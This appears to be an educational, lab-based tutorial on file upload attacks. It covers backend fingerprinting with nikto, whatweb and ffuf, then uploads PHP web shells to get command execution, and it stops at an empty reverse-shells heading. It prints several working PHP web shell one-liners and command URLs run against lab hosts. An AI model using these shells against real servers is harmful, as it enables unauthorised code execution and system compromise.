




# File Upload Attacks

This section documents common techniques for identifying and exploiting **file upload vulnerabilities**. It is intended as a practical, hands-on reference rather than a comprehensive theoretical guide.

---

## Table of Contents

- [File Upload Attacks](#file-upload-attacks)
  - [Overview](#overview)
  - [Basic Exploitation](#basic-exploitation)
  - [Shells](#shells)

---

## Overview

Many web applications provide functionality for users to upload files. If these uploads are not properly validated and restricted, attackers may be able to upload malicious files to the back-end server.

File upload vulnerabilities are relatively common and are frequently classified as `High` or `Critical` severity due to their potential impact. The root cause is typically insufficient validation of uploaded files, such as relying solely on **client-side checks, file extensions, or MIME types**.

The most severe form of this vulnerability is an `unauthenticated arbitrary file upload`. In this scenario, an attacker can upload executable content (for example, a **web shell** or a script that establishes a **reverse shell**), often resulting in remote code execution (RCE) and full compromise of the underlying system.

---

## Basic Exploitation

In the simplest scenario, a target application implements no effective security controls on its file upload functionality. This allows an attacker to upload arbitrary files, including **web shells**, directly to the server.

To achieve code execution, the uploaded payload must be written in the **same programming language** used by the backend. In many cases, the backend language can be inferred directly from the URL structure:

```
http://94.237.57.115:3157/index.php
```


If the file extension is not explicitly visible, it can be manually fingerprinted by requesting common variations of `index.ext` and observing server responses:

```
http://94.237.57.115:3157/index.php

http://94.237.57.115:31571/index.php7

http://94.237.57.115:31571/index.phps

http://94.237.57.115:31571/index.phtml

http://94.237.57.115:31571/index.asp

http://94.237.57.115:31571/index.aspx
```

This process can be automated using application fingerprinting tools such as `whatweb`, `nikto`, or `wappalyzer`:

```bash
nikto -h 94.237.57.115:31571
```

```bash
whatweb 94.237.57.115:31571 --aggression 3 --verbose 
```



Another effective approach is to fuzz for valid extensions using `ffuf`:

```bash
ffuf -w web-extensions.txt:FUZZ -u http://94.237.57.115:31571/indexFUZZ
```



Based on the results, we can confidently determine that the backend is implemented in `PHP`. We therefore prepare a simple PHP web shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

The file uploads successfully:


Clicking `Download file` reveals the upload directory:

```
http://94.237.57.115:31571/uploads/shell.php
```


Since the uploaded file is both accessible and executable, we can interact with the web shell via the `cmd` GET parameter:

```
http://94.237.57.115:31571/uploads/shell.php?cmd=id
```



At this point, we have successfully achieved remote code execution (RCE) through an unrestricted file upload vulnerability.

---

## Web Shells

Web shells are a common post-exploitation technique used to obtain and maintain remote code execution on a target system. A web shell is typically a script written in the same language as the back-end application and executed through a web-accessible endpoint.

A comprehensive collection of web shells for various programming languages is available in **SecLists**:

- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

Since PHP is widely used in web applications, PHP-based web shells are particularly common. These shells execute system commands passed via HTTP parameters and return the output in the response.

Common minimal PHP web shells include:

```php
<?php echo passthru($_GET['cmd']); ?>
```

```php
<?php echo exec($_POST['cmd']); ?>
```

```php
<?php system($_GET['cmd']); ?>
```

```php
<?php passthru($_REQUEST['cmd']); ?>
```

These one-liners are often sufficient for command execution and are useful when upload restrictions or file size limits are in place.

We create a simple PHP web shell locally:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

After uploading the file through the vulnerable file upload functionality, the application stores it in the following directory:

```
http://94.237.50.221:56396/uploads/shell.php
```

We can now execute commands on the server through the `cmd` parameter:

```
http://94.237.50.221:56396/uploads/shell.php?cmd=cd+/;cat+flag.txt
```


In addition to minimal one-liner shells, more advanced web shells provide a semi-interactive terminal interface. A popular example is `phpbash`, which offers a browser-based command shell.

- https://github.com/Arrexel/phpbash

For phpbash to function correctly, the following conditions must be met:

- JavaScript must be enabled in the client browser
- The target server must allow execution of the PHP `shell_exec()` function

To use `phpbash`, upload the `phpbash.php` file and navigate to its location:

```
http://94.237.50.221:56396/uploads/phpbash.php
```



Interactive web shells like `phpbash` can significantly improve usability during manual post-exploitation but are more likely to be detected due to their size and complexity.

---

## Reverse Shells